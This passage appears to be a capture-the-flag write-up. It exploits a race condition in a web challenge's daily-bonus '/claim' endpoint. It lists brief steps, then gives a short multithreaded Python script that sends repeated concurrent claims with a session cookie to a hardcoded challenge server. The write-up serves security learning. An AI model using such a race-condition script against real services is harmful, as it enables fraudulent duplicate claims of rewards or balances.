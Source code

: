 * Register new account - get 1000 balance.
* Don’t claim the daily bonus
* Spam /claim fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

<figure><img src="../.gitbook/assets/Picture2 (1).png" alt=""><figcaption></figcaption></figure>

Here’s the cracker.py

```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")

```
